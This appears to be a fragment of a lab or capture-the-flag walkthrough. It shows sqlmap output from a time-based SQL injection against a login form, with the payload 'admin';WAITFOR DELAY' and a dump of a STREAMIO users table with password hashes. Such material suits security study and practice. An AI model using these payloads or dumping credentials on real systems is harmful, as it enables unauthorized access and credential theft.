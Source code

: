 ```bash
    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: username=admin';WAITFOR DELAY '0:0:5'--&password=a
---
[16:38:05] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2019 or 10 or 2016
web application technology: Microsoft IIS 10.0, PHP 7.2.26
back-end DBMS: Microsoft SQL Server 2019
[16:38:05] [INFO] fetching columns for table 'users' in database 'STREAMIO'
[16:38:05] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                              
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[16:38:29] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
4
[16:38:33] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                     
[16:39:02] [INFO] adjusting time delay to 2 seconds due to good response times
id
[16:39:20] [INFO] retrieved: is_staf
[16:40:53] [ERROR] invalid character detected. retrying..
[16:40:53] [WARNING] increasing time delay to 3 seconds
fa
[16:41:14] [INFO] retrieved: pass
[16:42:32] [ERROR] invalid character detected. retrying..
[16:42:32] [WARNING] increasing time delay to 4 seconds
word
[16:43:48] [INFO] retrieved: use
[16:44:54] [ERROR] invalid character detected. retrying..
[16:44:54] [WARNING] increasing time delay to 5 seconds
[16:45:14] [ERROR] invalid character detected. retrying..
[16:45:14] [WARNING] increasing time delay to 6 seconds
[16:45:37] [ERROR] invalid character detected. retrying..
[16:45:37] [WARNING] increasing time delay to 7 seconds
[16:46:03] [ERROR] invalid character detected. retrying..
[16:46:03] [WARNING] increasing time delay to 8 seconds
rnam
[16:48:10] [ERROR] invalid character detected. retrying..
[16:48:10] [WARNING] increasing time delay to 9 seconds
[16:48:34] [ERROR] invalid character detected. retrying..

```

```bash
Database: STREAMIO
Table: users
[3 entries]
+----+----------+----------------------------------------------------+----------------------------------------------------+
| id | is_staff | password                                           | username                                           |
+----+----------+----------------------------------------------------+----------------------------------------------------+
| 3  | 1        | c660060492d9eddaa8332d89c99c9239                   | James                  "                           |
| 4  | 1        | 925e5408ecb67aea449373d668b7359e                   | Theodore                                           |
| 5  | 1        | 083ffae904143c4796e464dac33c1f7d                   | Samantha                                           |
+----+----------+----------------------------------------------------+----------------------------------------------------+

```